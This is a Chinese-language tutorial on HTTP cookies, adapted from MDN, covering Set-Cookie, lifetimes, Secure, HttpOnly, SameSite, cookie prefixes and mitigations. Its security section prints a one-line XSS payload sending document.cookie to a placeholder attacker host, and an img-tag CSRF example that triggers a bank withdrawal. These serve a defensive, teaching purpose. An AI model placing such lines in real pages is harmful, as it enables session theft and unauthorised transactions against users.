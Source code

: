 # HTTP Cookie

HTTP Cookie（也叫 Web Cookie 或浏览器 Cookie）是服务器发送到用户浏览器并`保存在本地`的一小块数据，它会在浏览器下次向同一服务器再发起请求时`被携带`并发送到服务器上。

通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的`登录状态`。Cookie 使基于无状态的HTTP协议记录稳定的状态信息成为了可能。

Cookie 主要用于：
1. 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
2. 个性化设置（如用户自定义设置、主题等）
3. 浏览器行为跟踪（如跟踪分析用户行为等）

Cookie 曾被用于客户端数据存储，但服务器指定 Cookie 后，每次请求都会携带 Cookie 数据，会带来额外的`性能开销`（尤其是移动端）。随着现代浏览器开始支持多种存储方式（`Web storage`，IndexedDB），Cookie 渐渐被淘汰。

## 创建 Cookie

当服务器收到 HTTP 请求时，服务器可以在响应头里面添加一个`Set-Cookie`选项。浏览器收到响应后通常会保存下 Cookie，之后对该服务器每一次请求中都通过`Cookie`请求头部将 Cookie 信息发送给服务器。另外，Cookie 的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

```
Set-Cookie: <cookie名>=<cookie值>
```

服务器通过该头部告知客户端保存 Cookie 信息。

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

现在，对该服务器发起的每一次新请求，浏览器都会将之前保存的Cookie信息通过 Cookie 请求头部再发送给服务器。

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

## 定义 Cookie 的生命周期

Cookie 的生命周期可以通过`两种`方式定义：

1. `会话期 Cookie` 是最简单的 Cookie：浏览器`关闭`之后它会被`自动删除`，也就是说它仅在会话期内有效。会话期 Cookie 不需要指定过期时间（Expires）或者有效期（Max-Age）。
2. `持久性 Cookie` 的生命周期取决于过期时间（Expires）或有效期（Max-Age）指定的一段时间。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

当 Cookie 的过期时间被设定时，设定的日期和时间只与客户端相关，而不是服务端。

如果站点对用户进行身份验证，则每当用户进行身份验证时，它都应重新生成并重新发送会话 Cookie，甚至是已经存在的会话 Cookie。此技术有助于防止`会话固定攻击`（session fixation attacks），在该攻击中第三方可以重用用户的会话。

## 限制访问 Cookie

有`两种`方法可以确保 Cookie 被`安全发送`，并且不会被意外的参与者或脚本访问：

1. `Secure`属性。预防`中间人（man-in-the-middle）`攻击。
2. `HttpOnly`属性。预防`跨站点脚本（XSS）`攻击。

标记为`Secure`的 Cookie 只应通过被`HTTPS`协议加密过的请求发送给服务端，因此可以预防`中间人（man-in-the-middle）`攻击者的攻击。但即便设置了 Secure 标记，敏感信息也不应该通过 Cookie 传输，因为 Cookie 有其固有的不安全性，Secure 标记也无法提供确实的安全保障, 例如，可以访问客户端硬盘的人可以读取它。从 Chrome 52 和 Firefox 52 开始，不安全的站点（http:）无法使用Cookie的 Secure 标记。

JavaScript `Document.cookie` API `无法访问`带有`HttpOnly`属性的 cookie，此类 Cookie 仅作用于服务器。例如，持久化服务器端会话的 Cookie 不需要对 JavaScript 可用，而应具有 HttpOnly 属性。此预防措施有助于缓解`跨站点脚本（XSS）`攻击。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

## Cookie 的作用域

`Domain`和`Path`标识定义了 Cookie 的作用域：即允许 Cookie 应该发送给哪些URL。

1. `Domain`指定了哪些主机可以接受 Cookie。如果不指定，默认为 origin，不包含子域名。如果指定了Domain，则一般包含子域名。当子域需要共享有关用户的信息时，例如，如果设置 Domain=mozilla.org，则 Cookie 也包含在子域名中（如developer.mozilla.org）。

2. `Path`指定了主机下的哪些路径可以接受 Cookie（该 URL 路径必须存在于请求 URL 中）。以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。例如，设置 Path=/docs，则 /docs、/docs/Web/、/docs/Web/HTTP 都会匹配。

## SameSite 属性

`SameSite`：SameSite Cookie 允许服务器要求某个 cookie 在`跨站请求`时不会被发送，（其中 Site 由可注册域定义），从而可以阻止`跨站请求伪造（CSRF）`攻击。

```
Set-Cookie: key=value; SameSite=Strict
```

SameSite 有三种值：

1. `None`。浏览器会在同站请求、跨站请求下继续发送 cookies，不区分大小写。
2. `Strict`。浏览器将只在访问相同站点时发送 cookie。（在原有 Cookies 的限制条件上的加强，如上文 Cookie 的作用域所述）。
3. `Lax`。与 Strict 类似，但用户从外部站点导航至URL时（例如通过链接）除外。在新版本浏览器中，为`默认`选项，Same-site cookies 将会为一些跨站子请求保留，如图片加载或者 frames 的调用，但只有当用户从外部站点导航到URL时才会发送。如 link 链接。

## Cookie 前缀

cookie 机制的使得服务器无法确认 cookie 是在安全来源上设置的，甚至无法确定 cookie 最初是在哪里设置的。

子域上的易受攻击的应用程序可以使用 Domain 属性设置 cookie，从而可以访问所有其他子域上的该 cookie。`会话固定攻击`中可能会`滥用`此机制。（会话劫持）

但是，作为深度防御措施，可以使用 cookie `前缀`来断言有关 cookie 的特定事实。有两个前缀可用：

1. `__Host-`：如果 cookie 名称具有此前缀，则仅当它也用 Secure 属性标记，是从安全来源发送的，不包括 Domain 属性，并将 Path 属性设置为 / 时，它才在 Set-Cookie 标头中接受。这样，这些 cookie 可以被视为`domain-locked`。
2. `__Secure-`：如果 cookie 名称具有此前缀，则仅当它也用 Secure 属性标记，是从安全来源发送的，它才在 Set-Cookie 标头中接受。该前缀限制要弱于 __Host- 前缀。

带有这些前缀的 Cookie， 如果不符合其限制的会被浏览器拒绝。这确保了如果子域要创建带有前缀的 cookie，那么它将要么局限于该子域，要么被完全忽略。由于应用服务器仅在确定用户是否已通过身份验证或 CSRF 令牌正确时才检查特定的 cookie 名称，因此，这有效地充当了针对`会话劫持`的防御措施。

## Document.cookie

JS 通过`Document.cookie`创建新的 Cookie，也可以访问非 HttpOnly 标记的 Cookie。

```javascript
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

通过 JS 创建的 Cookie 不能包含`HttpOnly`标志。

JS 可以通过`跨站脚本攻击（XSS）`的方式来窃取 Cookie。

## 安全

存在 Cookie 中的数据可以被`访问`，也可以被`修改`。切记不能通过 Cookie 存储、传输敏感信息。可以用`JSON Web Tokens`之类的替代身份验证/机密机制。

缓解涉及 Cookie 的攻击的方法：

1. 使用`HttpOnly`属性可`防止`通过 JavaScript 访问 cookie 值。
2. 用于敏感信息（身份验证）的 Cookie 的生存期应较短，并且`SameSite`属性设置为`Strict`或`Lax`。这样确保不与`跨域`请求一起发送身份验证 cookie，这种请求不会向服务器进行身份验证。

### 会话劫持和 XSS

Cookie 常用来标记用户或授权会话。如果 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行[XSS](https://developer.mozilla.org/zh-CN/docs/Glossary/Cross-site_scripting)攻击。

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly`类型的 Cookie 用于阻止 JS 对其访问，一定程度缓解此类攻击。

### 跨站请求伪造（CSRF）

[CSRF](https://developer.mozilla.org/zh-CN/docs/Glossary/CSRF)。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

1. 对用户输入进行过滤来阻止`XSS`。
2. 任何敏感操作都需要确认。
3. 用于敏感信息的 Cookie 只能拥有较短的生命周期。

> [MDN HTTP cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
